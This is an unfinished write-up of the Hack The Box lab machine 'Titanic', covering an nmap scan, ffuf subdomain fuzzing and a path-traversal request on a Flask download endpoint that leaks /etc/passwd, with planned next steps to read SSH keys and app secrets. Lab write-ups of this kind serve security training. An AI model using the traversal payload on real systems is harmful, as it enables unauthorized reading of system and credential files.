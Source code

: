# HTB - Titanic

**IP Address:** `10.10.11.55`  
**OS:** Ubuntu  
**Difficulty:** Easy  
**Tags:** LFI, Python Flask, Subdomain Enumeration, File Disclosure

---

## 1. Port Scanning

### 1.1 Nmap Scan

```bash
nmap -sC -sV 10.10.11.55
```

Open Ports:

- 22/tcp → SSH (OpenSSH 8.9p1 Ubuntu)
- 80/tcp → HTTP (Apache 2.4.52 + Werkzeug 3.0.3 Python/3.10.12)

---

## 2. Subdomain Enumeration

### 2.1 FFUF Command

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://titanic.htb/ -H "Host: FUZZ.titanic.htb" -fc 301
```

✅ Found subdomain: `dev.titanic.htb`

Updated `/etc/hosts`:

```
10.10.11.55 dev.titanic.htb
```

---

## 3. Web Discovery on dev.titanic.htb

Inspected available files on the dev site.

Found: `app.py` but with no sensitive info.

Tried **Local File Inclusion (LFI)** using path traversal:

```bash
curl --path-as-is http://titanic.htb/download?ticket=../../../etc/passwd
```

✅ `/etc/passwd` successfully leaked  
Discovered system usernames including:

- `developer`

---

## 4. Pending Next Step

Usernames found, and confirmed LFI vulnerability.  
The next steps would involve:

- Trying to disclose other sensitive files (e.g., SSH keys, app secrets)
- Exploring login vectors (SSH or Web)
- Escalating via readable local files

---

🚧 **MACHINE IN PROGRESS**

(Upload the next part when ready to continue documenting.)

